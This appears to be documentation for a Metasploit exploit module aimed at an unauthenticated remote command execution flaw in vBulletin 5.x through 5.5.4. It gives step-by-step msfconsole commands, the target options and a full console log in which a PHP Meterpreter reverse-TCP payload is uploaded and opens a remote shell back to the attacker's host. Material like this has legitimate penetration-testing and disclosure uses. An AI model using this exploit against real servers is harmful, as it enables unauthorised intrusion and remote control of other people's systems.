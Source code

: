 ## Introduction

vBulletin 5.x through 5.5.4 allows remote command execution via the widgetConfig[code] parameter in an ajax/render/widget_php routestring request.

## Verification Steps

1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/multi/http/vbulletin_5x_unauth_rce`
4. Do: `set RHOSTS 192.168.0.15`
5. Do: `set LHOST 192.168.0.13`
6. Do: `run`

## Targets

```
  Id  Name
  --  ----
  0   Automatic (Dropper)
  1   Linux (Stager)
  2   Windows (Stager)
  3   Unix (In-Memory)
  4   Windows (In-Memory)
```

## Options

**PHP_CMD**

Specify the PHP function in which you want execute the payload. Defalut: shell_exec

**Proxies**

A proxy chain of format type:host:port[,type:host:port][...]. It's optional.

**RHOSTS**

The target server IP address on which vBulletin is hosted.

**RPORT**

The target server TCP port on which vBulletin is hosted. Default: 80

**SSL**

Negotiate SSL/TLS for outgoing connections. Default: false

**TARGETURI**

The base URI path of vBulletin. Default: '/'

**VHOST**

The target HTTP server virtual host.

## Usage

### Targeting (Automatic)

```
msf5 exploit(multi/http/vbulletin_5x_unauth_rce) > set rhosts 172.20.2.25
rhosts => 172.20.2.25
msf5 exploit(multi/http/vbulletin_5x_unauth_rce) > set lhost 172.20.2.13
lhost => 172.20.2.13
msf5 exploit(multi/http/vbulletin_5x_unauth_rce) > run

[*] Started reverse TCP handler on 172.20.2.13:4444
[*] Targeted operating system is: linux
[*] Sending php/meterpreter/reverse_tcp command payload
[*] Payload uploaded as: .QFJc.php
[*] Sending stage (38247 bytes) to 172.20.2.25
[*] Meterpreter session 11 opened (172.20.2.13:4444 -> 172.20.2.25:58830) at 2019-09-26 16:11:51 +0400
[!] This exploit may require manual cleanup of '.QFJc.php' on the target

meterpreter >
[+] Deleted .QFJc.php

meterpreter >
```

## References

  1. <https://seclists.org/fulldisclosure/2019/Sep/31>
